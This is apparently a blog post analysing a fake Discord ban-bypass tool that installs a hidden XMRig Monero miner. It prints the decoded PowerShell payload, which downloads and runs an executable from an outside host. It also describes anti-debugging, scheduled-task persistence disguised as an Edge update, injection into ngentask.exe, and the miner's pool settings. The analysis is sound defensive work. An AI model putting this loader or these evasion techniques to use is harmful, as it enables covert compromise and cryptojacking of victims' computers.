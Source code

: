 ```yaml
---
layout: post
title: Unmasking Discord Phantom Miner - Analyzing a Discord Ban Bypass Malware
lang: en
categories: [Malware, Reverse-Engineering]
tags: [windows, malware, .NET, miner, reversing, confuserEx, confuser, obfuscation]
permalink: /posts/2024-10-11-discord-phantom-miner
---
```


![discord_malw.webp]({{ site.baseurl }}/images/discord_malware/discord_malw.webp)

## Introduction

Recently, a Telegram user by the handle [@belka_e](https://t.me/poxek_chat/118296) shared a screenshot in the [poxek](https://t.me/poxek_chat) chat, which drew attention to a suspicious script. This script claimed to bypass Discord bans in Russia. However, upon closer inspection, it was found that the software was downloading and executing a payload in memory.

The download was from the address:

```
ayugram.temp.swtest.ru/install.ps1
```

![e8a560256efa7d9cf9a04af6ce5bf0f8.png]({{ site.baseurl }}/images/discord_malware/e8a560256efa7d9cf9a04af6ce5bf0f8.png)

This PowerShell script file contained a Base64-encoded payload. Upon decoding, the actual malicious payload was revealed.

![752c84e53b7d8b8bd093f312b5668355.png]({{ site.baseurl }}/images/discord_malware/752c84e53b7d8b8bd093f312b5668355.png)

---

## Technical Analysis

### Decoded Payload

```powershell
$username = $env:USERNAME
$url = "http://ayugram.temp.swtest.ru/fix"
$output = "C:\Users\$username\fix.exe"

Start-Sleep -Seconds 1
Invoke-WebRequest -Uri $url -OutFile $output
Start-Sleep -Seconds 5
Start-Process -FilePath $output
```

The payload downloads and executes a file named `fix.exe` from the remote server. Upon analysis, the file turned out to be a `.NET` binary obfuscated using ConfuserEx 1.0.0.

![ceda5ebbed4bfe3e98c6206e25d4d989.png]({{ site.baseurl }}/images/discord_malware/ceda5ebbed4bfe3e98c6206e25d4d989.png)

### Obfuscation: ConfuserEx 1.0.0

After determining that `fix.exe` was a .NET binary, I encountered significant challenges due to the obfuscation applied by **ConfuserEx 1.0.0**. Following the steps outlined in the [UnconfuserExTools Repository](https://github.com/landoncrabtree/UnconfuserExTools), I was able to deobfuscate the binary and begin analyzing its behavior.

![76b25feae49567b98b2a08413c6ea854.png]({{ site.baseurl }}/images/discord_malware/76b25feae49567b98b2a08413c6ea854.png)

### Anti-Debugging Techniques

The first part of the binary checks whether a debugger is attached or if certain debugging-related environment variables are set. In **dnSpy**, you can edit these instructions and fill them with `NOP` operations to bypass the anti-debugging measures.

![5689c290c0ede5d3fad23de5c8147818.png]({{ site.baseurl }}/images/discord_malware/5689c290c0ede5d3fad23de5c8147818.png)

### Dropping and Persistence Mechanism

The malware drops itself on disk in the following location:

```
C:\Users\<username>\AppData\Roaming\winupdater.exe
```

It then establishes persistence by creating a scheduled task using `schtasks` with the task name `MicrosoftEdgeUpdate`, which ensures the malware is run at regular intervals.

![1adc975fdee02118a4560166f7daa9f6.png]({{ site.baseurl }}/images/discord_malware/1adc975fdee02118a4560166f7daa9f6.png)

### XMRig Miner Payload

After establishing persistence, the malware extracts a payload from its resources: the **XMRig** cryptocurrency miner.

![e8f6f37c3fb149686a848103aee0d78f.png]({{ site.baseurl }}/images/discord_malware/e8f6f37c3fb149686a848103aee0d78f.png)

#### The behavior is as follows:

- **Process Monitoring**: Before starting the miner process, the malware checks if **Task Manager** or **Process Hacker** is running. If either is detected, the malware kills the miner process to avoid detection (in case the miner process is already running from previous infections).

![7243c8cd1b6bdd9ab049fea572434131.png]({{ site.baseurl }}/images/discord_malware/7243c8cd1b6bdd9ab049fea572434131.png)

- **Injection into ngentask.exe**: The malware starts the following process:
  ```
  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\ngentask.exe
  ```
  It then allocates memory within this process and decrypts the **XMRig** miner payload into the allocated space. 
  
  ![40c794eec3b017f2c870a6336c7c465c.png]({{ site.baseurl }}/images/discord_malware/40c794eec3b017f2c870a6336c7c465c.png)

- **Miner Execution**: The miner is started with the following parameters:
  ```
  --algo rx/0 --donate-level 0 --max-cpu-usage 25 -o mine.bmpool.org:6004 -u 7121405
  ```

This configuration allows the malware to mine **Monero (XMR)** at 25% CPU usage, directing the mined currency to the attacker's wallet.

![bad33f69ef42c6c9656150b9acf03819.png]({{ site.baseurl }}/images/discord_malware/bad33f69ef42c6c9656150b9acf03819.png)

---

## Conclusion

This investigation revealed that the malware not only establishes persistence via scheduled tasks but also uses several techniques to avoid detection:

- **Anti-debugging** measures are used to thwart reverse engineering.
- The malware uses stealthy persistence via the **MicrosoftEdgeUpdate** task.
- It deploys an **XMRig** cryptocurrency miner, which is injected into a .NET framework process to avoid detection and maximize stealth.
